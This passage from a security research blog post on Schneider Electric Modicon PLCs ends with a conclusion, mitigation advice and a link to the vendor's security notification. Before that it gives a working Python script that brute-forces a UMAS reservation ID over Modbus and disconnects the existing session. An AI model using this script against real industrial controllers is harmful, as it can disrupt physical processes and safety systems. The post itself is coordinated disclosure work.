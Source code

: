 ```python
    parser = argparse.ArgumentParser(description="Brute force reservation ID of existing UMAS connection and disconnect it")
    parser.add_argument('-i', '--ip_address', type=str, help="ip address of modbus server")
    parser.add_argument('-d', '--debug', default=False, action="store_true", help="Enables debug tracing")
    args = parser.parse_args()

    host = args.ip_address
    port = 502

    if host is None:
        exit(-1)

    print("Connection on %s:%d" % (host, port))

    socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket.connect((host, port))

    i = 0
    while i < 0x100:
        resa_id = i
        if args.debug:
            if i % 0x10 == 0:
                print("resa_id: "+hex(i))
        resp = send_recv_modbus(socket, "5a "+int8_to_hex(resa_id)+" 11", args.debug)
        if is_umas_resp_ok(resp):
            print("Disconnect success! resa_id: 0x%02X" % resa_id)
            break
        i += 1

    print("Close")
    socket.close()
```


# Conclusion

In our previous article [“Stuxnet Type attack”](https://github.com/airbus-cyber/blogpost/tree/main/blogpost/applying-a-stuxnet-type-attack-to-a-modicon-plc), we demonstrated that the Schneider Electric PLC simulator executes the automation program in unconstrained x86 native code. This allows an attacker to have a Remote Code Execution on a machine where PLC Simulator is running.

To protect against motivated attackers, we must apply best security practices like:

* Disconnect the engineering station from the network;
* Ensure integrity and confidentiality of automation data by using hash and cipher mechanism.

As previously mentioned the tasks performed in this document were carried out with version EcoStruxure ControlExpert V14.1 -191122A. And they can be backported to previous releases and UnityPro products.

**Please find the Security Notification by Schneider Electric [here](https://www.se.com/ww/en/download/document/SEVD-2020-315-07/).**
